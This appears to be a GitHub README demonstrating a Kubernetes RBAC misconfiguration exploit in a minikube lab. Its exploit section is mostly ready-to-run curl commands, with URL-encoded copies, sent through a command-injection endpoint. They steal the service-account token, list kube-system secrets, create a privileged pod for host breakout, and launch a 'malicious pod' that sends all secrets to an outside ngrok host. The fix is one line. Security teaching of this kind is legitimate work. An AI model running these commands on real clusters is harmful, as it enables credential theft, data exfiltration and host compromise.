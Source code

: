 # RBAC issues

## Context
RBAC (Role-based access control) (wiki)[https://en.wikipedia.org/wiki/Role-based_access_control].

When a k8 cluster defines resources, it decides what permissions each resource is entitled to;
Misconfiguring a resource can result K8 cluster components performing outside of their scope, i.e.:
* Exposing inner cluster secrets, tokens and basically everything accessible by the K8 inner API
* Spinning up a privileged pod and gaining root over the host [[Kiril's demo](k8s/PrivilegedPod)]  

### PoC explanation
We'd like to demo what can happen if one managed to access a wrongfully-permissioned resource (via a container in this case);

Our demo begins **after** one has achieved RCE on a cluster container and will showcase what can happen starting from that point;
> We chose not to demo RCE-achieving on a container as this diverges from the intent of this demo and was also demoed before.  

That being said, the steps will begin by interacting with one of the containers themselves as in you were in already in RCE state 

## Setup

Run the following:
```
$ minikube start
$ ...
$ ./build.sh # chmod +x if needed
```

This will do the following:
* Spin up an "app" pod(`:3000`), simple NodeJs app which basically executes any command given (our entry point for initial RCE);
* Define a new "CI service", set the "app" service account as "CI Service"
* Define a new cluster role "CI role" **as too privileged**(got access to `*`)
* Define a cluster role binding and set "CI service" to be of "CI role"

## Exploit

<details>
  <summary>Spoiler alert</summary>
As we explained, we start our journey from the "ci app" and perform RCE using it;
The way we interact w/ the app is via HTTP requests to `/?cmd=<ANY_BASH_CMD>`;
That being said, let's fetch the IP of this service initially from within our local cluster:

```
$ minikube service ci-service --url=true
```
This should return something like: `http://192.168.39.72:30553`
> in the wild we would access this app via public internet; in this demo we must get it from our minikube first;
 
> From this point on we will use `` to evaluate bash commands;

Run ls:
````
curl `minikube service ci-service --url=true`?cmd=ls
````

See all env variables:
````
curl `minikube service ci-service --url=true`?cmd=env
````

Get the token
````
curl `minikube service ci-service --url=true`?cmd=cat%20/run/secrets/kubernetes.io/serviceaccount/token
````

Query for admin stuff using `KUBE_TOKEN` and the [K8 API](https://kubernetes.io/docs/concepts/overview/kubernetes-api/)
> Each example will contain a `decoded` and `encoded` parts; Each has the same payload, tho the encoded version is URI encoded, so we can use spaces etc
> 
> Use this website to uri encode for easy encoding: https://meyerweb.com/eric/tools/dencoder/
````
decoded

KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`; curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods/$HOSTNAME

encoded
%0AKUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%20curl%20-sSk%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%2F%24HOSTNAME
````

List all secrets
````
decoded
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`; curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/kube-system/secrets/

encoded
%0AKUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%20curl%20-sSk%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fkube-system%2Fsecrets%2F%0A
````

### Examples
#### 1. Vulnerable pod
We first need to write a json file and then apply it to the cluster (like `kubectl apply -f FILE`)
> Note the `privileged:true` in the pod declaration! This leads to root on the host if the attacker wants to. 

generate nginx pod (visualise changes with `minikube dashboard`)
````
decoded

cat > nginx-pod.json <<EOF
{
    "apiVersion": "v1",
    "kind": "Pod",
    "metadata": {
        "name": "nginx1"
    },
    "spec": {
        "containers": [
            {
                "name": "nginx",
                "image": "nginx:1.7.9",
                "ports": [
                    {
                        "containerPort": 80
                    }
                ],

                "securityContext":{
                    "privileged": true
                }
            }
        ]
    }
}
EOF


ENCODED
cat%20%3E%20nginx-pod.json%20%3C%3CEOF%0A%7B%0A%20%20%20%20%22apiVersion%22%3A%20%22v1%22%2C%0A%20%20%20%20%22kind%22%3A%20%22Pod%22%2C%0A%20%20%20%20%22metadata%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx1%22%0A%20%20%20%20%7D%2C%0A%20%20%20%20%22spec%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22containers%22%3A%20%5B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22image%22%3A%20%22nginx%3A1.7.9%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22ports%22%3A%20%5B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22containerPort%22%3A%2080%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%5D%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22securityContext%22%3A%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22privileged%22%3A%20true%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%5D%0A%20%20%20%20%7D%0A%7D%0AEOF
````
dispatch it
```
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`;
curl -k -v -X POST -H "Authorization: Bearer $KUBE_TOKEN" -H "Content-Type: application/json" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods -d@nginx-pod.json    


ENCODED
KUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%0Acurl%20-k%20-v%20-X%20POST%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20-H%20%22Content-Type%3A%20application%2Fjson%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%20-d%40nginx-pod.json
```

This is it! :) 
From this point one can tap into the privileged container and "break out of it";

#### 2. Malicious Pod
Below is an example of pod that dispatches (via simple `curl`) all the k8 secrets;
> I'm using ngrok for simple globally-accessible local server. [See here for installation](https://dashboard.ngrok.com/get-started/setup).
>
> Once installed, initiate the server (`$ ngrok http 3000`)and swap the IP in the malicious pod to the one from your ngrok client; 
> you can browse to `http://127.0.0.1:4040` to see visual log of the connections  

Malicious pod
```

decoded
cat > bad-pod.json <<EOF
{
	"apiVersion": "v1",
	"kind": "Pod",
	"metadata": {
		"name": "nginx2",
	},
	"spec": {
		"containers": [
			{
                "name": "nginx",
                "image": "nginx:1.7.9",
				"command": [
					"/bin/bash"
				],
				"args": [
					"-c",
					"apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H \"Authorization: Bearer $TOKEN\" -H \"Content-Type: application/json\" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | curl http://166a39ea.ngrok.io; sleep 100000"
				]
			}
		],
		"serviceAccountName": "ci-service",
		"automountServiceAccountToken": true,
		"hostNetwork": true
	}
}
EOF

ENCODED
cat%20%3E%20bad-pod.json%20%3C%3CEOF%0A%7B%0A%09%22apiVersion%22%3A%20%22v1%22%2C%0A%09%22kind%22%3A%20%22Pod%22%2C%0A%09%22metadata%22%3A%20%7B%0A%09%09%22name%22%3A%20%22nginx2%22%2C%0A%09%7D%2C%0A%09%22spec%22%3A%20%7B%0A%09%09%22containers%22%3A%20%5B%0A%09%09%09%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22image%22%3A%20%22nginx%3A1.7.9%22%2C%0A%09%09%09%09%22command%22%3A%20%5B%0A%09%09%09%09%09%22%2Fbin%2Fbash%22%0A%09%09%09%09%5D%2C%0A%09%09%09%09%22args%22%3A%20%5B%0A%09%09%09%09%09%22-c%22%2C%0A%09%09%09%09%09%22apk%20update%20%26%26%20apk%20add%20curl%20--no-cache%3B%20cat%20%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%20%7C%20%7B%20read%20TOKEN%3B%20curl%20-k%20-v%20-H%20%5C%22Authorization%3A%20Bearer%20%24TOKEN%5C%22%20-H%20%5C%22Content-Type%3A%20application%2Fjson%5C%22%20https%3A%2F%2F192.168.154.228%3A8443%2Fapi%2Fv1%2Fnamespaces%2Fkube-system%2Fsecrets%3B%20%7D%20%7C%20curl%20http%3A%2F%2F166a39ea.ngrok.io%3B%20sleep%20100000%22%0A%09%09%09%09%5D%0A%09%09%09%7D%0A%09%09%5D%2C%0A%09%09%22serviceAccountName%22%3A%20%22ci-service%22%2C%0A%09%09%22automountServiceAccountToken%22%3A%20true%2C%0A%09%09%22hostNetwork%22%3A%20true%0A%09%7D%0A%7D%0AEOF
```

Dispatch
```
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`;
curl -k -v -X POST -H "Authorization: Bearer $KUBE_TOKEN" -H "Content-Type: application/json" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods -d@bad-pod.json

encoded
KUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%0Acurl%20-k%20-v%20-X%20POST%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20-H%20%22Content-Type%3A%20application%2Fjson%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%20-d%40bad-pod.json
```
</details>


### Fix

To fix this problem one should set the role permissions when defining the cluster role; Simple yet dangerous;  
